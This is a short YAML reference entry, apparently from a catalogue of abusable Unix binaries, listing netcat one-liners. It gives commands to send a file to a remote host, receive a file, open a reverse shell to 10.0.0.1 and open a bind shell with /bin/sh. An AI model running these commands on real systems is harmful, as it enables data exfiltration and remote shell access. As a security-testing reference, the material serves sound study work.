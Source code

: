 ```yaml
---
functions:
  upload:
    - description: Serve a file on a TCP port.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_send
        nc $RHOST $RPORT < "$LFILE"
  download:
    - description: Fetch remote file from a remote TCP port.
      code: |-
        LPORT=8000
        LFILE=file_to_get
        nc -l -p $LPORT > "$LFILE"
  reverse-shell:
    - code: |
        RHOST=10.0.0.1
        RPORT=8000
        nc -e /bin/sh $RHOST $RPORT
  bind-shell:
    - code: |
        LPORT=8000
        nc -lp $LPORT -e /bin/sh
---
```

